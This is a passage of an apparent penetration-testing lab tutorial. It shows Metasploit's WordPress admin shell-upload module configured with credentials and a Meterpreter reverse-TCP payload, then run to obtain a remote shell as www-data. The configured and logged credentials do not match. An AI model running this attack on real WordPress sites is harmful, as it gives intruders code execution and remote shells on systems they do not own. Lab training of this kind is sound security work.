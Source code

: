 We can then issue the `show options` command to ensure that everything is set up properly. In this lab example, we must specify both the vhost and the IP address, or the exploit will fail with the error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

Attacking WordPress

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

Once we are satisfied with the setup, we can type `exploit` and obtain a reverse shell. From here, we could start enumerating the host for sensitive data or paths for vertical/horizontal privilege escalation and lateral movement.

Attacking WordPress

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Authenticating with WordPress using doug:jessica1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/CczIptSXlr/wCoUuUPfIO.php...
[*] Sending stage (39264 bytes) to 10.129.42.195
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.42.195:42816) at 2021-09-20 19:43:46 -0400
i[+] Deleted wCoUuUPfIO.php
[+] Deleted CczIptSXlr.php
[+] Deleted ../CczIptSXlr

meterpreter > getuid

Server username: www-data (33)
```
